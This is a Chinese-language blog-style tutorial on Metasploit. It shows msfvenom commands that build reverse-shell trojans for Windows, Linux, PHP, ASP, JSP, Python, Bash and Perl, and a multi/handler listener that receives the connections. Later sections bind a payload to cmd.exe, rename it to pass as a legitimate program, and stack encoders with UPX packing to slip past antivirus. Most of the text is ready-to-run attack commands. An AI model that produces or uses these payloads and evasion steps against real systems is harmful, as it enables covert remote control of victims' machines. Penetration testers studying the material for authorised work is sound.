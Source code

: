# MSF学习

之前的渗透测试中 其实很少用到 cs msf

但是在实际内网的时候 可以发现 msf cs 都是很好用的 所以现在我来学习一下 msf的使用方法

kali自带msf

 [https://www.cnblogs.com/bmjoker/p/10051014.html](https://www.cnblogs.com/bmjoker/p/10051014.html) 

使用

```undefined
msfconsole
```

启动即可

首先就是最正常的木马生成

所以这里其实只需要会木马生成

其他免杀什么的先不需要看

这里我们使用msfvenom

## 基本木马生成

```cobol
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.53.128 LPORT=5555 -f exe > shell.exe
```

这里记得修改ip 和端口

然后上传



<img src="https://i-blog.csdnimg.cn/blog_migrate/fd1d19c10922a6d5e6cdd59cad2af927.png" alt="" style="max-height:768px; box-sizing:content-box;" />


但是发现被杀了 我们先推出火绒 然后看看基本使用

这个时候我们需要打开msf

```css
exploit/multi/handler 这个是来监听的
 
set payload windows/meterpreter/reverse_tcp  设置反向监听payload
 
set lhost 192.168.53.128                          # 我们的kali本机ip
 
set lport 5555                                    # 我们的kali本机端口
 
run
```

然后我们在windows上执行木马



<img src="https://i-blog.csdnimg.cn/blog_migrate/a6a5b8eff9e2e8d142b04f5118769da4.png" alt="" style="max-height:320px; box-sizing:content-box;" />


获取到了控制权

## 捆绑程序木马生成

```css
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.53.128 LPORT=5555 -x cmd.exe -f exe -o test_win10.exe
 
 
这里使用 -x 来捆绑一个可执行文件
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3079fa9a3920a11a5b11834061204a46.png" alt="" style="max-height:319px; box-sizing:content-box;" />


当然需要将捆绑的引用放在目录下

然后我们修改一下名字



<img src="https://i-blog.csdnimg.cn/blog_migrate/74bc99499af4f848a70f38bcbf8e367a.png" alt="" style="max-height:172px; box-sizing:content-box;" />


是不是就很像

然后我们开始上线

## 木马生成其他

 **Linux：** 

```css
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

 **Windows** :

```css
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

 **PHP** :

```css
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
 
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

 **ASP** :

```css
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

 **JSP** :

```css
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

 **Python** :

```css
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

 **Bash** :

```css
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

 **Perl** :

```css
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

## 基本免杀

```css
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.53.128  lport=5555 -e x86/shikata_ga_nai -i 20 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i 5 -f raw | msfvenom -e x86/shikata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10  -f exe -o shell.exe
```

```css
这里使用 -e 参数 
```

可以生成一个混淆的木马

然后我们再加壳

```css
upx shell.exe
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d9e45caab2296cb471ecad56eeeb191e.png" alt="" style="max-height:544px; box-sizing:content-box;" />


无法绕过 因为这个只是一般的免杀 特征都被抓到了

这里我们开始使用自行编码

```css
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=192.168.53.128  lport=5555 -f c
```

-b 是删除指定的 字符串 然后 -f 是输出格式



<img src="https://i-blog.csdnimg.cn/blog_migrate/f611d63a188d02b9aec0cff17bae186f.png" alt="" style="max-height:494px; box-sizing:content-box;" />
